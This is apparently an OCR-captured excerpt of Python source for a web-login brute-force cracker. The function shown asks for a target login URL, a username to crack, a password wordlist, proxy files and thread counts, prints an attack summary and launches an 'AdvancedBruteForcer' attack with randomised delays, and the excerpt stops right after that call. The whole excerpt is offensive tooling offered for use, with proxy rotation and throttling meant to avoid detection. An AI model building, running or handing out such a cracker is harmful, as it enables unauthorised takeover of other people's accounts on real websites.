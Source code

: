 def crack_menu(sample_wordlist):
    clear_screen()
    print("\n" + "═" * 50)
    print(f"{Colors.BOLD}🔹 CRACKING SETUP{Colors.END}")
    print("═" * 50)
    
    try:
        url = input(f"{Colors.YELLOW}Enter target URL (e.g., http://example.com/login): {Colors.END}").strip()
        username = input(f"{Colors.YELLOW}Enter username to crack: {Colors.END}").strip()
        
        print(f"\nAvailable wordlists:")
        print(f"1. Use sample wordlist ({sample_wordlist})")
        print("2. Use custom wordlist")
        wordlist_choice = input(f"{Colors.YELLOW}Choose wordlist (1-2): {Colors.END}").strip()
        
        if wordlist_choice == "1":
            wordlist_file = sample_wordlist
        elif wordlist_choice == "2":
            wordlist_file = input(f"{Colors.YELLOW}Enter custom wordlist file path: {Colors.END}").strip()
        else:
            print(f"{Colors.YELLOW}[!] Using sample wordlist{Colors.END}")
            wordlist_file = sample_wordlist
        
        use_proxy = input(f"{Colors.YELLOW}Use proxies? (y/n): {Colors.END}").strip().lower()
        proxy_file = None
        if use_proxy == 'y':
            proxy_file = input(f"{Colors.YELLOW}Enter proxy file path: {Colors.END}").strip()
        
        threads = input(f"{Colors.YELLOW}Number of threads (default 5): {Colors.END}").strip()
        threads = int(threads) if threads.isdigit() else 5
        
        print("\n" + "═" * 50)
        print(f"{Colors.BOLD}🔹 ATTACK SUMMARY{Colors.END}")
        print("═" * 50)
        print(f"{Colors.SKY_BLUE}Target URL: {url}{Colors.END}")
        print(f"{Colors.SKY_BLUE}Username: {username}{Colors.END}")
        print(f"{Colors.SKY_BLUE}Wordlist: {wordlist_file}{Colors.END}")
        print(f"{Colors.SKY_BLUE}Proxies: {'Yes' if proxy_file else 'No'}{Colors.END}")
        print(f"{Colors.SKY_BLUE}Threads: {threads}{Colors.END}")
        print("═" * 50)
        
        confirm = input(f"{Colors.YELLOW}Start attack? (y/n): {Colors.END}").strip().lower()
        if confirm == 'y':
            print(f"\n{Colors.SKY_BLUE}[*] Starting attack at {time.strftime('%H:%M:%S')}{Colors.END}")
            print(f"{Colors.SKY_BLUE}[*] Press Ctrl+C to stop\n{Colors.END}")
            
            bruteforcer = AdvancedBruteForcer()
            success = bruteforcer.start_attack(
                url=url,
                username=username,
                wordlist_file=wordlist_file,
                proxy_file=proxy_file,
                threads=threads,
                delay=(1, 3),
                timeout=10
            )
            